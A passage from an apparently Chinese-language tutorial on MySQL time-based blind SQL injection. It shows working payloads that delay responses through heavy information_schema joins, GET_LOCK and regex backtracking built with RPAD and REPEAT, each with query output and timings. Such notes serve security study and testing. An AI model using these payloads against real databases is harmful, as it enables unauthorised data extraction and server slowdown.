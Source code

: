 ```
select * from table3 where id='-1' or if (length(database())>1,(select count(*) from information_schema.columns a,information_schema.columns b),1)#
+----+------+
| id | info |
+----+------+
| 1  | a    |
| 2  | a    |
| 3  | b    |
| 4  | c    |
| 5  | c    |
+----+------+
5 rows in set
Time: 0.361s
```

4. get_lock

[https://dev.mysql.com/doc/refman/5.7/en/locking-functions.html](https://dev.mysql.com/doc/refman/5.7/en/locking-functions.html)

`GET_LOCK(str,timeout)`

尝试对`str`加锁,超时时间为`timeout`秒,负值`timeout`表示无限超时

在一个`session`中可以先锁定一个变量`select get_lock('misaka',1);`

然后通过另一个`session`再次执行get_lock函数`select get_lock('misaka',5);`此时会产生5秒的延迟，

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201221227308.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201222322928.png)

`select * from table3 where id='-1' or if (length(database())>1,(select get_lock('misaka',5)),1)#`

5. rpad/repeat

构造恶意的正则匹配去消耗服务器资源,从而达到延时注入的目的

[RPAD(str,len,padstr)](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_rpad)

```
mysql> SELECT RPAD('hi',5,'?');
        -> 'hi???'
mysql> SELECT RPAD('hi',1,'?');
        -> 'h'
```

[REPEAT(str,count)](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_repeat)

```
mysql> SELECT REPEAT('MySQL', 3);
        -> 'MySQLMySQLMySQL'
```

首先利用`repeat`或者`rpad`构造超长的待匹配字符串,然后再次利用这两个函数去构造正则匹配规则,利用匹配规则进行多次匹配(通过`repeat`中的数据量来控制延迟时间)

```
select rpad('a',300000,'a') RLIKE concat(repeat('(a.*)+',100),'b');
+-------------------------------------------------------------+
| rpad('a',300000,'a') RLIKE concat(repeat('(a.*)+',100),'b') |
+-------------------------------------------------------------+
| 0                                                           |
+-------------------------------------------------------------+
1 row in set
Time: 0.726s

select rpad('a',300000,'a') RLIKE concat(repeat('(a.*)+',500),'b');
+-------------------------------------------------------------+
| rpad('a',300000,'a') RLIKE concat(repeat('(a.*)+',500),'b') |
+-------------------------------------------------------------+
```